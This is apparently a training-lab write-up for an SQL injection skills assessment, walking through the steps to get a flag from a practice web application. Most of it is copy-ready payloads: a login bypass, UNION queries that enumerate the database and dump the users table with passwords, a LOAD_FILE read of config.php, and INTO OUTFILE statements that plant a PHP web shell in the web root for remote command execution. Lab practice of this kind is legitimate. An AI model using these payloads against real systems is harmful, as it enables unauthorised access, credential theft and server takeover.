 # Skills Assessment - SQL Injection Fundamentals

_**Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**_

<figure><img src="../../../.gitbook/assets/image (1295).png" alt=""><figcaption><p>admin' OR 1=1-- -</p></figcaption></figure>

```
' UNION SELECT 1,2,3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1296).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,@@version,3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1297).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,user(),3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1298).png" alt=""><figcaption><p>root@localhost,</p></figcaption></figure>

```
' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1299).png" alt=""><figcaption></figcaption></figure>

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -
```

<figure><img src="../../../.gitbook/assets/image (1300).png" alt=""><figcaption><p>Can't create/write to file '/var/www/html/shell.php' (Errcode: 13 "Permission denied")</p></figcaption></figure>

So we don't have rights, i guess i have to switch users:

```
' UNION select 1,database(),3,4,5-- -
```

<figure><img src="../../../.gitbook/assets/image (1301).png" alt=""><figcaption><p>name of the current database</p></figcaption></figure>

```
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```

<figure><img src="../../../.gitbook/assets/image (1302).png" alt=""><figcaption></figcaption></figure>

```
' UNION select 1,username,password,4,5 from ilfreight.users-- -
```

<figure><img src="../../../.gitbook/assets/image (1303).png" alt=""><figcaption></figcaption></figure>

let's go and connect as adam with the command `adam'OR 1=1-- -`

```
cn' union select 1,'<?php system($_REQUEST[0]); ?>',3,4,5 into outfile '/var/www/html/dashboard/payload.php'-- -
```

<figure><img src="../../../.gitbook/assets/image (1304).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1306).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1305).png" alt=""><figcaption></figcaption></figure>

Big win :tada:
